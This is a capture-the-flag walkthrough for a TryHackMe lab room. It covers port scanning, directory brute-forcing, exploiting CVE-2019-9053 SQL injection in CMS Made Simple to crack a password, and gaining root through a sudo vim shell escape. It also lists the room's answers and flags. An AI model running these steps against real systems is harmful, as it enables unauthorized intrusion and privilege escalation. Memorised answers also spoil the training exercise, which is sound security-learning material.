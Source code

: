 ```yaml
---
description: 'https://tryhackme.com/room/easyctf'
---
```


# Simple CTF

## INIT

```text
export easyctf=10.10.150.200
ping $easyctf

echo "10.10.150.200 easyctf.thm" >> /etc/hosts
```

## How many services are running under port 1000?

```text
nmap -T5 -p1-1000 easyctf.thm
```

![](../.gitbook/assets/image%20%28429%29.png)

{% hint style="success" %}
2
{% endhint %}

## What is running on the higher port?

```text
nmap -sC -sV -T5 -p1-65535 easyctf.thm
```

![](../.gitbook/assets/image%20%28390%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## FTP

![](../.gitbook/assets/image%20%28453%29.png)

## HTTP

![](../.gitbook/assets/image%20%28448%29.png)

## GOBUSTER

```text
gobuster dir -u easyctf.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28430%29.png)

![](../.gitbook/assets/image%20%28455%29.png)

> CMS Made Simple 2.2.8

## What's the CVE you're using against the application?

![](../.gitbook/assets/image%20%28444%29.png)

![](../.gitbook/assets/image%20%28413%29.png)

{% hint style="success" %}
CVE-2019-9053
{% endhint %}

## To what kind of vulnerability is the application vulnerable?

![](../.gitbook/assets/image%20%28416%29.png)

{% hint style="success" %}
sqli
{% endhint %}

## What's the password?

```text
python3 easyctf.py -u http://easyctf.thm/simple --crack -wordlist /usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28443%29.png)

{% hint style="success" %}
secret
{% endhint %}

## Where can you login with the details obtained?

![](../.gitbook/assets/image%20%28400%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## What's the user flag?

![](../.gitbook/assets/image%20%28379%29.png)

{% hint style="success" %}
G00d j0b, keep up!
{% endhint %}

## Is there any other user in the home directory? What's its name?

![](../.gitbook/assets/image%20%28383%29.png)

{% hint style="success" %}
sunbath
{% endhint %}

## What can you leverage to spawn a privileged shell?

```text
sudo vim -c ':!/bin/sh'
```

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

{% hint style="success" %}
vim
{% endhint %}

## What's the root flag?

```text
cat /root/root.txt
```

{% hint style="success" %}
W3ll d0n3. You made it!
{% endhint %}

